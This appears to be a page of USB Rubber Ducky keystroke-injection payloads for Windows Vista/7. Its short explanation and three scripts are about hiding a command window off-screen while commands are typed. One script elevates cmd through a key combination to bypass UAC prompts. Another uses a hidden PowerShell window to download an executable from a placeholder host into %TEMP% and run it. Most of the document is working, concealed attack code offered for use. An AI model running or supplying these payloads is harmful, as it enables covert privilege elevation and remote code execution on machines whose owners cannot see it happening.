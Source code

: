 The following is an example of how to hide the command window below the bottom of the screen while typing in commands. The window movement part of the script can also be used on any other window. CMD.exe is also run with some command line flags for changing the appearance of the window to make it harder to view, and also a flag that turns on delayed expansion in the command prompt which allows for variable names to be called more than once in a line with no adverse effects. Ex... SET Something = Something + Something_Else
```
REM Target: WINDOWS VISTA/7
REM Encoder V2.4
REM Using the run command for a broader OS base. 
DELAY 3000
GUI R
DELAY 1000
STRING cmd /Q /D /T:7F /F:OFF /V:ON /K
DELAY 500
ENTER
DELAY 750
ALT SPACE
STRING M
DOWNARROW
REPEAT 100
ENTER
```
The following is an attempt to create a hide CMD window script that uses a key combo to run as administrator when UAC is turned on. 
```
REM Target: WINDOWS VISTA
REM Encoder V2.4
REM Purpose: Hide cmd window script that uses a key combo to circumvent UAC limitations. 
DELAY 3000
CONTROL ESCAPE
DELAY 500
STRING cmd /Q /D /T:7F /F:OFF /V:ON /K
DELAY 500
CTRL-SHIFT ENTER
DELAY 1000
ALT C
DELAY 750
ALT SPACE
STRING M
DOWNARROW
REPEAT 100
ENTER
```
Other windows can be hidden also, as demonstrated in this powershell hide, get, and execute. 
```
REM Target: WINDOWS VISTA/7
REM Encoder V2.4
REM Using the run command for a broader OS base. 
DELAY 3000
GUI R
DELAY 1000
STRING powershell (new-object System.Net.WebClient).DownloadFile('http://example.com/bob.old','%TEMP%\bob.exe'); Start-Process "%TEMP%\bob.exe"
DELAY 500
ENTER
DELAY 750
ALT SPACE
STRING M
DOWNARROW
REPEAT 100
ENTER
```